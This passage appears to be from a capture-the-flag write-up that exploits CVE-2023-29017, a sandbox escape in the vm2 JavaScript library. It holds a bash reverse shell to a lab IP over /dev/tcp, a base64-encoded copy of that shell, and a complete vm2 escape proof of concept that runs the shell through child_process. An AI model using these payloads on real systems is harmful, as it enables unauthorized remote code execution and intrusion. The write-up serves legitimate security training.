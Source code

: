 So now it is time to find the critical known vulnerability affecting that library

## EXPLOITATION

vm2 library is affected by a vulnerability, tracked as CVE-2023-29017, has the CVSS score of 9.8, and threat actors could use it to escape the sandbox and execute arbitrary code.

Further information: [https://socradar.io/critical-vulnerability-in-vm2-javascript-sandbox-library-exploit-code-available/](https://socradar.io/critical-vulnerability-in-vm2-javascript-sandbox-library-exploit-code-available/){:target="_blank"}


![](https://alternume0.github.io/assets/img/codify_exploitation01.jpg)
![](https://alternume0.github.io/assets/img/codify_enumeration_04.jpg)

**Now we will  prepare our reverse shell so we can get into the victim**

Just to avoid any problem with http protocol, we will encode our payload

```bash 
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.99/443 0>&1'" | base64 -w 0 
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0Ljk5LzQ0MyAwPiYxJwo=                       
```

**So finally our payload will be:**

```bash 
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0Ljk5LzQ0MyAwPiYxJwo= | base64 -d | bash
```

So just we need to add my payload to the exploit, go to editor a click on run:

```bash 
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0Ljk5LzQ0MyAwPiYxJwo= | base64 -d | bash'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```
